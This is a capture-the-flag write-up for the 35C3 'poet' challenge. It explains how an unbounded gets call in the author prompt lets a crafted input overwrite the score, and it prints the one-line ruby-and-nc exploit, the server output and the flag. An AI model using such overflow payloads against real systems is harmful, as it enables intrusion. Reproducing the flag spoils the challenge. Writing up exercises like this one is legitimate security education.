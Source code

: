 # poet

> Solves: 214

> We are looking for the [poet](poet) of the year:
> `nc 35.207.132.47 22223`

> Difficulty estimate: very easy

## Analysis

Given only the binary program we must first disassemble it.
The `main` function of the program looks like this:

```
000000000040098b <main>:
  40098b:	53                   	push   rbx
  40098c:	b9 00 00 00 00       	mov    ecx,0x0
  400991:	ba 02 00 00 00       	mov    edx,0x2
  400996:	be 00 00 00 00       	mov    esi,0x0
  40099b:	48 8b 3d de 16 20 00 	mov    rdi,QWORD PTR [rip+0x2016de]        # 602080 <stdout@@GLIBC_2.2.5>
  4009a2:	e8 99 fc ff ff       	call   400640 <setvbuf@plt>
  4009a7:	48 8d 3d 92 02 00 00 	lea    rdi,[rip+0x292]        # 400c40 <_IO_stdin_used+0x1c0>
  4009ae:	e8 4d fc ff ff       	call   400600 <puts@plt>
  4009b3:	48 8d 1d e6 16 20 00 	lea    rbx,[rip+0x2016e6]        # 6020a0 <poem>
  4009ba:	b8 00 00 00 00       	mov    eax,0x0
  4009bf:	e8 71 ff ff ff       	call   400935 <get_poem>
  4009c4:	b8 00 00 00 00       	mov    eax,0x0
  4009c9:	e8 97 ff ff ff       	call   400965 <get_author>
  4009ce:	b8 00 00 00 00       	mov    eax,0x0
  4009d3:	e8 df fd ff ff       	call   4007b7 <rate_poem>
  4009d8:	81 bb 40 04 00 00 40 	cmp    DWORD PTR [rbx+0x440],0xf4240
  4009df:	42 0f 00
  4009e2:	74 0e                	je     4009f2 <main+0x67>
  4009e4:	48 8d 3d 45 03 00 00 	lea    rdi,[rip+0x345]        # 400d30 <_IO_stdin_used+0x2b0>
  4009eb:	e8 10 fc ff ff       	call   400600 <puts@plt>
  4009f0:	eb c8                	jmp    4009ba <main+0x2f>
  4009f2:	b8 00 00 00 00       	mov    eax,0x0
  4009f7:	e8 6b fd ff ff       	call   400767 <reward>
  4009fc:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]
```

The program reads in "poems" and rates them until the score achieved by them
reaches 1,000,000 points. The rating function is the most complex piece of the
code but we can ignore it as both `get_poem` and `get_author` turn out to be
vulnerable to a buffer overflow:

```
0000000000400965 <get_author>:
  400965:	48 83 ec 08          	sub    rsp,0x8
  400969:	48 8d 3d a8 02 00 00 	lea    rdi,[rip+0x2a8]        # 400c18 <_IO_stdin_used+0x198>
  400970:	b8 00 00 00 00       	mov    eax,0x0
  400975:	e8 96 fc ff ff       	call   400610 <printf@plt>
  40097a:	48 8d 3d 1f 1b 20 00 	lea    rdi,[rip+0x201b1f]        # 6024a0 <poem+0x400>
  400981:	e8 aa fc ff ff       	call   400630 <gets@plt>
  400986:	48 83 c4 08          	add    rsp,0x8
  40098a:	c3                   	ret
```

Since `gets` is not bounded in any way whatsoever it lets us write way all over
the programs memory. `get_author` is especially useful as it writes at the
location of `poet + 0x400` which is just before `poet + 0x440` (at `4009d8`
`rbx` is holding the address of the `poet` variable).

## Solution

Now that we know all this we just have to use the author input to overwrite the
score with a correct value encoded as ASCII (the bytes are reversed because the
system is [little endian](https://en.wikipedia.org/wiki/Endianness).

This is as simple as executing:

```bash
ruby -e 'puts; puts ?a * 0x40 + [0x40, 0x42, 0xf].pack("c*")' | nc 35.207.132.47 22223
```

```
**********************************************************
* We are searching for the poet of the year 2018.        *
* Submit your one line poem now to win an amazing prize! *
**********************************************************

Enter the poem here:
> Who is the author of this poem?
>
+---------------------------------------------------------------------------+
THE POEM

SCORED 1000000 POINTS.

CONGRATULATIONS

THE POET
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

RECEIVES THE AWARD FOR POET OF THE YEAR 2018!

THE PRIZE IS THE FOLLOWING FLAG:
35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39

+---------------------------------------------------------------------------+
```
